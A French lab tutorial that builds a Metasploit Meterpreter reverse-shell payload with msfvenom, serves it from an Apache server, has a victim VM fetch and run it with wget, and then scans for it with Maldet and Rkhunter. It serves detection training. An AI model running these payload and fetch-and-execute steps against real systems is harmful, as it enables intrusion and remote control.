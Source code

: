 Cette procédure  vise à démontrer comment un payload malveillant peut être généré et exécuté, puis comment des outils comme **Rkhunter** ou **Linux Malware Detect (LMD)** peuvent le détecter.

-----

### **Phase 1 : Préparation de la Machine Attaquante (Kali Linux)**

L'objectif ici est de mettre en place un "écouteur" qui attendra la connexion de la machine victime.

#### **1. Lancer la console Metasploit (MSF)**

Ouvrez un terminal sur votre machine Kali et lancez `msfconsole`.

```bash
msfconsole
```

#### **2. Configurer le gestionnaire d'écoute (handler)**

Dans la console MSF, nous allons configurer un gestionnaire générique pour recevoir la connexion inverse.

```bash
# Utiliser le module de gestion générique
use exploit/multi/handler

# Définir le type de payload attendu (doit correspondre au payload que nous créerons)
set PAYLOAD linux/x86/meterpreter/reverse_tcp

# Définir l'adresse IP de votre machine Kali (la machine qui écoute)
# Pour trouver votre IP, ouvrez un autre terminal et tapez : ip addr show
set LHOST <IP_de_votre_Kali>

# Lancer l'écouteur. Il attendra une connexion.
run
```

**Laissez ce terminal ouvert.** Il est maintenant en attente active d'une connexion.

-----

### **Phase 2 : Création et Distribution du Payload**

Maintenant, nous allons créer le fichier malveillant et le rendre accessible à la victime.

#### **3. Générer le payload avec MSFvenom**

Ouvrez un **nouveau terminal** sur votre machine Kali.

```bash
# Générer un exécutable ELF pour Linux
# -p : spécifie le payload (le même que pour l'écouteur)
# LHOST : l'IP de la machine Kali où le payload doit se connecter
# -f : le format du fichier (elf pour un exécutable Linux)
# -o : le nom du fichier de sortie
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP_de_votre_Kali> LPORT=4444 -f elf -o /tmp/payload.bin
```

#### **4. Mettre le payload à disposition via un serveur web**

Le moyen le plus simple de transférer le fichier est d'utiliser un serveur web Apache.

```bash
# Démarrer le service Apache2
sudo systemctl start apache2

# Copier le payload dans le répertoire racine du serveur web
sudo cp /tmp/payload.bin /var/www/html/
```

Votre payload est maintenant téléchargeable à l'adresse `http://<IP_de_votre_Kali>/payload.bin`.

-----

### **Phase 3 : Exécution et Détection sur la Machine Victime**

Cette étape simule ce qui se passerait sur le serveur compromis.

#### **5. Télécharger et exécuter le payload**

Connectez-vous au terminal de votre machine victime (votre autre VM).

```bash
# Télécharger le fichier depuis le serveur web de la machine Kali
wget http://<IP_de_votre_Kali>/payload.bin

# Rendre le fichier exécutable
chmod +x payload.bin

# Lancer le payload
./payload.bin
```

**Ne fermez pas ce terminal.** Le processus est maintenant en cours d'exécution en arrière-plan et a dû se connecter à votre machine Kali.

-----

### **Phase 4 : Confirmation de l'Intrusion et Détection**

#### **6. Confirmer la connexion**

Retournez sur le terminal de votre machine Kali où `msfconsole` est en cours d'exécution. Vous devriez voir un message indiquant qu'une session a été ouverte :

```
[*] Meterpreter session 1 opened (192.168.X.X:4444 -> 192.168.X.Y:34567) at ...
```

Vous pouvez maintenant interagir avec la machine victime via cette session Meterpreter :

```bash
# Savoir dans quel répertoire vous êtes
pwd

# Lister les fichiers
ls

# Obtenir de l'aide sur les commandes disponibles
?
```

#### **7. Lancer les outils de détection sur la victime**

C'est l'objectif principal. Maintenant que le payload est actif, voyons comment les outils de sécurité réagissent. Sur le terminal de la **machine victime** :

  * **Avec Linux Malware Detect (LMD / Maldetect)**

LMD est excellent pour scanner les fichiers et trouver des signatures de logiciels malveillants connus. Le payload généré par `msfvenom` a une signature très reconnaissable.

```bash
# Installer maldetect s'il n'est pas présent (Debian/Ubuntu)
#
cd /tmp  
git clone https://github.com/rfxn/linux-malware-detect.git
cd linux-malware-detect/
./install.sh


# Lancer un scan sur le répertoire où le payload a été téléchargé (ex: /home/user/)
sudo maldet -a /home/user/

# Un scan plus large du système de fichiers temporaires est aussi une bonne idée
sudo maldet -a /tmp/
```

**Résultat attendu :** LMD devrait trouver le fichier `payload.bin` et le signaler comme une menace, en se basant sur sa base de données de signatures (par exemple, `LMD.Payload.23`).

  * **Avec Rkhunter (Rootkit Hunter)**

Rkhunter recherche des rootkits, des portes dérobées et des modifications suspectes du système.

```bash
# Mettre à jour la base de données de Rkhunter
sudo rkhunter --update

# Lancer une vérification complète du système
sudo rkhunter --check
```

**Résultat attendu :** Rkhunter pourrait détecter plusieurs choses :

1.  Le fichier `payload.bin` lui-même s'il est considéré comme un fichier de rootkit connu.
2.  Un **processus suspect en mémoire** associé à `./payload.bin`.
3.  Des **ports ouverts suspects** si le payload en avait créé.

En suivant ces étapes, vous démontrez non seulement comment une attaque de base fonctionne, mais surtout, vous prouvez l'efficacité des outils de détection pour identifier la menace, que ce soit au niveau du fichier (`LMD`) ou du comportement du système (`Rkhunter`).
